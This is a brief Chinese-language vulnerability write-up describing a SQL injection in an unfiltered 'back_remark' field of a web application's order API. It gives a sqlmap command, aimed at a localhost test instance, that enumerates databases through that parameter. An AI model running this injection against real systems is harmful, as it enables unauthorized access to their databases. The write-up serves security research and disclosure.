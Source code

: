 ### 前台 SQL 注入

代码分析 /webapp/modules/api/actions/orderAction.class.php，发现 back\_remark 字段没有添加过滤

[![](assets/1710900899-c1086e1d25eb23b02996d79f7270f6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141616-8b246254-d925-1.png)

sqlmap 语句

```plain
#module=api&action=order&m=ReturnData
python sqlmap.py -u "http://127.0.0.1:8080/index.php?module=api&action=order&m=ReturnData" -data "id=1&oid=1&otype=1&re_type=1&back_remark=1" -p back_remark -dbs -batch
```
